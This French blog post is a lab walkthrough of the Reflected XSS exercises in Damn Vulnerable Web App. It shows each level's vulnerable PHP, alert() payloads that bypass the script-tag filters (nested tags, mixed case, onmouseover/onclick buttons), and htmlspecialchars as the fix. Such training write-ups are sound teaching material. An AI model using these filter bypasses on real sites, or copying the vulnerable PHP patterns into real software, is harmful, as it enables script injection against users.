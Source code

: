 ```yaml
---
layout: post
title: DVWA - XSS réfléchi
subtitle: Reflected XSS - Solutions
gh-repo: 0xSs0rZ/0xSs0rZ.github.io
gh-badge: [star]
tags: [DVWA, XSS, solutions, Web App]
comments: false
---
```


**Voici quelques solutions (liste non exhaustive) pour la catégorie "Reflected XSS" de Damn Vulnerable Web App, DVWA**

Si vous n'avez pas encore installé DVWA, consultez: [Installer DVWA](https://0xss0rz.github.io/2019-08-18-installer-DVWA/)

## 0x00 - XSS réfléchi 

Une vulnérabilité _Reflected_ _XSS_ apparaît lorsque des données fournies par un client web sont utilisées telles quelles par les scripts du serveur pour produire une page de résultats. Ces données non vérifiées peuvent être utilisées pour injecter du code dans la page dynamique reçue par le navigateur client. [1][2]

## 0x01 - Security level: Low

Code source:

~~~
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?>
~~~

Il n'y a aucune mesure de sécurité.

**Payload:**

~~~
<script>alert('xss');</script>
~~~

Red Team: 1 - Blue Team: 0

## 0x02 - Security level: medium

Code source:

~~~
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?> 
~~~

Mesure de sécurité mise en place: effacer la balise script 

~~~
$name = str_replace( '<script>', '', $_GET[ 'name' ] );
~~~

_Solution:_ utiliser un autre type de balise que script ou modifier son format

**Payload:**

~~~
#1
<sc<script>ript>alert('xss');</script>
#2
<sCriPt>alert('xss');</sCriPt>
~~~

Red Team: 1 - Blue Team: 0

## 0x03 - Security level: High

Code source:

~~~
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

?> 
~~~

Mesure de sécurité mise en oeuvre: effacer tout contenu ou le mot script apparait

~~~
$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );
~~~

_Solution:_ utiliser une autre forme de balise

**Payload:**

~~~
#1
<button onmouseover="alert('xss');">xss</button>
#2
<button onclick="alert('xss');">xss</button>
~~~

Red Team: 1 - Blue Team: 0

## 0x04 - Security level: impossible

Code source: 

~~~
<?php

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Check Anti-CSRF token
    checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );

    // Get input
    $name = htmlspecialchars( $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}

// Generate Anti-CSRF token
generateSessionToken();

?> 
~~~

Mesure de sécurité mise en oeuvre: utilisation de _htmlspecialchars_

~~~
$name = htmlspecialchars( $_GET[ 'name' ] );
~~~

A priori, pas de solution possible. Le site est sécurisé.

Red Team: 0 - Blue Team: 1

# Continuez à tester vos connaissances des failles XSS avec: [XSS Game - Solutions](https://0xss0rz.github.io/2019-08-21-XXS-game/)

**Références:**

[1] Cross-site scripting, [https://fr.wikipedia.org/wiki/Cross-site_scripting#XSS_r%C3%A9fl%C3%A9chi_(ou_non_permanent)](https://fr.wikipedia.org/wiki/Cross-site_scripting#XSS_r%C3%A9fl%C3%A9chi_(ou_non_permanent))

[2] OWASP, Cross-site Scripting (XSS), [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

[3] OWASP, XSS Filter Evasion Cheat Sheet, [https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)


[![CC-BY](https://mirrors.creativecommons.org/presskit/buttons/88x31/svg/by.svg)](https://creativecommons.org/licenses/by/4.0/)

This work is licensed under a [Creative Commons Attribution 4.0 International License](https://creativecommons.org/licenses/by/4.0/).



